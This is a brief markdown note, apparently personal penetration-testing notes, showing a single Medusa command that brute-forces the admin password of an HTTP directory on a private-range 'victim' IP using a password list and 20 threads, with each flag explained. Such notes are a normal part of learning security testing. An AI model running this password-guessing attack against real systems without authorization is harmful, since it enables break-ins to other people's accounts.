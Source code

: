 # Medusa

* `medusa -h 192.168.1.1 -u admin -P passwords.txt -M http -m DIR:/admin -T 20`
  * `-h 192.168.1.1` is the victim machine IP address
  * `-u admin` specifies admin whose passwords we are cracking.
  * `-T 20` means 20 threads
  * other details could be found in medusa man page.
  * 



